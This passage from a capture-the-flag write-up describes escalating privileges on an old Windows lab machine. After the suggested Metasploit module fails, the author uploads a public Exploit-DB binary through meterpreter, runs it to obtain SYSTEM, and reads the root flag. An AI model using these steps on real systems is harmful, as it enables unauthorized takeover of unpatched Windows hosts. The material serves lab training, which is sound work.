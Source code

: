 ```bash

<SNIP>
```

If there is an exploit that is suggested for both `x64` and `x86`, then we should try it first. In this case, this is the `exploit/windows/local/ms16_032_secondary_logon_handle_privesc`. After trying almost every configuration possible, restarting the machine multiple times, etc. this module does not seem to work, althought it is the intended avenue for privilege escalation.

This box was created ~7 years back, so a lot have changed since then and those things are expected. Fortunately for us, there is an [executable](https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/blob/main/bin-sploits/41020.exe) stored in Exploit-DB's GitLab, which we can download on our attack host, transfer to the target, and then execute it. This will successfully escalate our privileges to `NT AUTHORITY\SYSTEM` and we would be able to grab the `root` flag:

```bash
# upload the executable to target
meterpreter > upload ~/Downloads/41020.exe -o "c:\users\kostas\desktop"
[*] Uploading  : /home/kali/Downloads/41020.exe -> c:\users\kostas\desktop\41020.exe
[*] Completed  : /home/kali/Downloads/41020.exe -> c:\users\kostas\desktop\41020.exe
# execute the file
C:\Users\kostas\Desktop>41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
# check account privileges
C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
# read the root flag
C:\Users\kostas\Desktop>type c:\users\administrator\desktop\root.txt
type c:\users\administrator\desktop\root.txt
<SNIP>
```

![](machine_pwned.png){: width="75%" .normal}